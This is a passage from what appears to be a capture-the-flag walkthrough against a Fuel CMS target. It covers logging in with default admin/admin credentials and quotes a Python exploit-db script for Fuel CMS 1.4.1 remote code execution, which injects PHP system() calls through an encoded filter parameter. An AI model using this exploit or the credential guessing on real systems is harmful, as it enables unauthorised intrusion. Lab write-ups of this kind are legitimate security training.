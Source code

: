 We can see that there is no port open other than 80. We can also try to access the `/fuel` directory that we obtained from the nmap scan.

![login](./.images/login.png)

The `/fuel` directory takes us to a login page where we can try some simple default login credential and turns out that by username and password as `admin` we can access the CMS dashboard as admin.

![dashboard](./.images/dashboard.png)

Now that we have access to the dashboard as an admin we can look for some exploit. And after some googling we can find a python script for [Fuel CMS v1.4.1 Remote Code Execution](https://www.exploit-db.com/exploits/47138). The script looks like:

```
import requests
import urllib
 
url = "http://target_IP:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start
 
while 1:
    xxxx = raw_input('cmd:')
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    
    r = requests.get(burp0_url)
 
    html = ""
    htmlcharset = r.text.find(html)
```
